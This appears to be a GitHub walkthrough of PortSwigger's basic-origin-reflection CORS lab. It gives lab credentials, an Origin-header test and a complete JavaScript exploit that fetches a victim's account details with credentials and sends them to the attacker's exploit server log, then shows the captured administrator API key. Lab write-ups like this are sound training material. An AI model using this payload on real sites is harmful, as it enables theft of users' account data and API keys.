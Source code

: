 ## Welcome, my friend. Today we will start the [1. CORS lab](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/9992bd0d-9e92-4eb9-9861-c164ae6cd89c)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/b1d7357f-50b1-4b78-bc8c-89ad40a8c70c)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/f7a8214f-a4a0-4a9b-94db-ef953479687b)


### Now, We will use ```burp suite``` and intercept this requst:

![image](https://github.com/user-attachments/assets/12166337-ca1b-417e-b9b1-b46311e30af8)

## Try add origin header in header request such as:

```
Origin: http://mohamed.com
```

![image](https://github.com/user-attachments/assets/c628ea00-42ff-4798-a0dc-82bdde16b963)


### This website is weak with CORS vulnerability , Now go to server exploit and add this code:

```
<html>
<body>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a6a003b03194f2480ceaddb00020097.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
</body>
</html>
```

### enter ```sotre``` and ```Deliver exploit to vitim``` then ```access log```:

![image](https://github.com/user-attachments/assets/46b26c0a-0731-461c-9429-18cc212eb2a9)


### api of administrator: ```GCOy54QZY3TpGYnnLbMK8borG8juRSJr```

![image](https://github.com/user-attachments/assets/cc1a059b-67d4-4b31-b726-4274fcafe02f)

![image](https://github.com/user-attachments/assets/6d88c4c0-a4f0-48e8-9911-2ab6c164bc65)



-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
